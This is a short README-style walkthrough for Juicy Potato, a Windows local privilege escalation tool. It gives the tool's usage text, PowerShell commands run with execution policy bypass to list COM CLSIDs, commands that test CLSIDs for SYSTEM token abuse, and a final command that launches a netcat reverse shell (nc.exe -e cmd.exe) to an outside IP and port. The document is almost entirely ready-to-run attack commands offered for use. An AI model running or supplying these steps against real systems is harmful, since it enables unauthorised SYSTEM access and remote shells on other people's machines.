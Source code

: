 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## PoC 
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
> does not provide direct output. Make sure there are no errors.

### get list CLSIDs :
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
* Verify following files are generated <br>
> CLSIDs.csv: List of CLSIDs and APIDs in CSV format.<br>
> CLSID.list: List of CLSIDs only.


### checking CLSIDs :
```
.\get.bat
```
> result will saved on kaz.log

### or

### Check working CLSID using -c parameter
```
method 1
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -t * -l 1337 -z

method 2
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -p "c:\windows\system32\cmd.exe" -a "/c whoami" -l 1337 -t *
```

### Reverse Shell
```
.\jus.exe -l 1337 -c "{working-xxx-xxx-xxx-CLSID}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 123.123.123 6969" -t *
```


## reference

* [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)<br>
* [ohpe](https://github.com/ohpe/juicy-potato/blob/master/README.md)































